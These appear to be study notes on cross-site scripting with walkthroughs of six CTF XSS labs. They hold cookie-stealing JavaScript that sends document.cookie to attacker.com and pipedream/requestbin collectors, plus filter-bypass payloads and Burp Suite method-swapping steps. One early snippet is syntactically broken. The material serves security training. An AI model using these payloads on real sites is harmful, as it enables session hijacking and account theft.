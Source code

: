 # XSS
* Cross-site scripting (XSS) is a web security vulnerability that allows attackers to inject malicious code into a user's browser.

## Part 1. Report
 
## Part 2. XSS
- Working on Web Browser: JavaScript
- Working location: victim's web browser

1. Stored XSS -> Save in the server
2. Reflected XSS -> rebound from Server
3. XSS, CSRF
4. Steal cookie by using JavaScript

```javascript
var cookieData = document.cookie;
var i = new Image();
  i.src = "HTTP://normaltic.attacker.com/
  i.src = "HTTP://normaltic.attacker.com/?cookie=" + "Secret_data";
  i.src = "HTTP://normaltic.attacker.com/?cookie=" + cookieData;
```

5. VPS or requestbin - https://public.requestbin.com/r/

6. XSS
   [Common XSS Errors[(https://github.com/imnarendrabhati/testing-new/blob/master/%3CIMG%20SRC%3DX%20ONERROR:JAVASCRIPT:ALERT(1)%3B%3E)

1) CTF XSS 1 (https://portswigger.net/web-security/cross-site-scripting/contexts)
- Error = Input script
- Annoucement and create content "<script>alert(1)</script>" on the subject.
- When you click it, the alert shows up.
- Instead of alert(1), put var i = new Image(); i.src = "HTTP://en7riltg206nc.x.pipedream.net/getCrred.php?cookie=" + cookieData;
- In BurpSuite, instead of alert(1), put the below code
```javascript
var cookieData = document.cookie; 
var i = new Image();
i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;
```

- On the admin visit url = type the address made by the attack post
- Check the flag on https://public.requestbin.com/

7. DOM Based XSS
- Create a tag by using JavaScript
- Create and execute a new script from a browser
- an XSS attack wherein the attack payload is executed as a result of modifying the DOM “environment” in the victim's browser used by the original client side script,
- document.write = "";
- innerHTML

## Part 3. Assignment
1. Review
2. XSS CTF
  1) CTF XSS 2
    - Error = Showing the direct sentence on HTML => <script>alert('x에 대한 검색 결과가 존재하지 않습니다.');</script>
    - Check Attack statement on search bar => xss');alert(1);var i=('
    - Check Attack => xss');var cookieData = document.cookie; var i = new Image();i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;var i=('
    - Send to repeater the POST URL to change GET method
    - Replace the Repeater on Burp Suite, working on the GET method instead of the POST method because the host gets the access
    - The GET URL inputs the admin visit URL bar
    - Check the flag on https://public.requestbin.com/

  2) CTF XSS 3
    - Error = Showing ID on the URL on the personal information
    - Check the attack possibility to change the ID on Burp Suite Request
    - Check the attack statement => aaa"/><script>alert(1)</script>
    - Check the attack => aaa"/><script>var cookieData = document.cookie; var i = new Image();i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;</script>
    - Copy GET URL and input the URL on the admin visit bar
    - Check the flag on https://public.requestbin.com/

  3) CTF XSS 4
    - Error = In the board, it is possible to use special characters (<'">).
    - Check the attack possibility of using an attack statement on the board. => <script>alert(1)</script>
    - Filtering "script" and "alert", so using another attack statement => <img src=x onerror=confirm(1)> 
    - Check the attack => <img src="https://x" onerror="location.href='http://enjt04rx79at.x.pipedream.net/?cookie=' + document.cookie;">
    - Block the long subject
    - Check the attack on the content box
    - Copy URL and input the URL on the admin visit bar
    - Check the flag on https://public.requestbin.com/

  4) CTF XSS 5
    - Error = In the board, it is possible to use special characters (<'">), but it converts &lt;
    - Check the attack possibility of using an attack statement on the board => <script>alert(1)</script>
    - Using the Burp Suite, the website should be intercepted step by step
    - Create a new post and forward
    - Check the attack statement => <script>var cookieData = document.cookie; var i = new Image();i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;</script>
    - During the intercept, change the filtered attack statement
    - Open the new post and copy the URL and input the URL on the admin visit bar
    - Check the flag on https://public.requestbin.com/

  5) CTF XSS 6
    - Error = When you log in wrong, the alert pops up.
    - Check the attack possibility in the Burp Suite
    - The POST proxy sends to Repeater and changes the method to GET
    - Check special characters and it works
    - Check the attack statement => +]');alert(1)//
    - Check the attack => +]');location.href='http://enjt04rx79at.x.pipedream.net/?cookie='%2bdocument.cookie;//
    - Copy URL and input the URL on the admin visit bar
    - Check the flag on https://public.requestbin.com/

  6) CTF XSS Challenge 
